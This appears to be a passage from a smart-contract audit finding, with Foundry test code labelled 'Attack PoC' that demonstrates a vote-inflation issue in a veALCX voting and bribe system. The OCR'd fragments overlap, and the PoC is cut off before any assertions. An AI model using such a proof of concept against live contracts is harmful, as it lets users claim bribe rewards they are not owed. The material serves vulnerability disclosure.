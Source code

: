 ```
    hevm.warp(block.timestamp + 2);

    // beef votes with balance x
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // ------------------- Start epoch i+2
    hevm.warp(newEpoch() + 1);
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    // distribution is executed
    voter.distribute();

    hevm.startPrank(admin);
    // user claim rewards
    voter.claimBribes(bribes, tokens, tokenId1);
    hevm.stopPrank();

    // time goes forward
    hevm.warp(block.timestamp + 2);

    hevm.startPrank(beef);
    // beef claim rewards
    voter.claimBribes(bribes, tokens, tokenId2);
    hevm.stopPrank();

}
```

### Attack PoC

Add this test to `src/test/Voting.t.sol`
```
function testTotalVotesInflation() public {

    uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);
    address bribeAddress = voter.bribes(address(sushiGauge));

    // Add BAL bribes to sushiGauge
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(bribeAddress);
    address[][] memory tokens = new address[][](1);
    tokens[0] = new address[](1);
    tokens[0][0] = bal;

    // in epoch i, attacker votes with balance x
    hevm.prank(admin);
    voter.vote(tokenId1, pools, weights, 0);

    // time goes forward
    hevm.warp(block.timestamp + 2);

    // beef votes with balance x
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);
```
